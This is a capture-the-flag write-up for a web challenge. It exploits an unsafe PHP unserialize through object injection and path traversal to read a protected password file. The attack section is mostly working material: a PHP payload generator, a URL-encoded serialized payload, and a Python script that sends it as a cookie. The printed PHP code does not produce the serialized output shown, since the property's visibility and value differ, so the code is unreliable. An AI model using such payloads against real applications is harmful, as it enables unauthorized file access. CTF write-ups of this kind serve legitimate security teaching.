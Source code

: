 #Web C - 200
	Ah, the art of looking back on what you have accomplished.

[Web C](http://web.camsctf.com/12)

-------------

It seems that we wish to read a file in `/1/`. Looking in the source code, we see that the file we want is `pass12.txt` (which we don't have permission to), and there's also a `useful.php`. Going over to http://web.camsctf.com/12/useful.php, we see a serializer/unserializer! Interesting...

![useful.php](http://i.imgur.com/lW85ZQ4.png)

We now look at response.js, which says at the bottom:

	// I have reason to believe that the true purpose of read.php is located in read.png - Lujing

`read.php` is what happens when we click the button in useful.php, and read.png shows us:

![read.png](http://web.camsctf.com/12/read.png)

Wow! An unsafe `unserialize`! Using PHP object injection (https://www.owasp.org/index.php/PHP_Object_Injection), we can get that file!

Our php source code:
```php

<?php
class readfile
{
   public $private_file = 'readfile("../1/pass12.txt")';
}

print urlencode(serialize(new readfile));
?>

```

Which gives us:

	O%3A8%3A%22readfile%22%3A1%3A%7Bs%3A22%3A%22%00readfile%00private_file%22%3Bs%3A15%3A%22..%2F1%2Fpass12.txt%22%3B%7D

We then write a quick python script to solve the problem:

```python
import requests
cooky = {'data':'O%3A8%3A%22readfile%22%3A1%3A%7Bs%3A22%3A%22%00readfile%00private_file%22%3Bs%3A15%3A%22..%2F1%2Fpass12.txt%22%3B%7D'}
r = requests.post("http://web.camsctf.com/12/read.php",cookies=cooky)
print(r.text)
```

And we get:

`path_traversal_con_object_injection`

We plug this into the password box to get our flag!

Flag: `{am_i_a_real_hacker_now}`

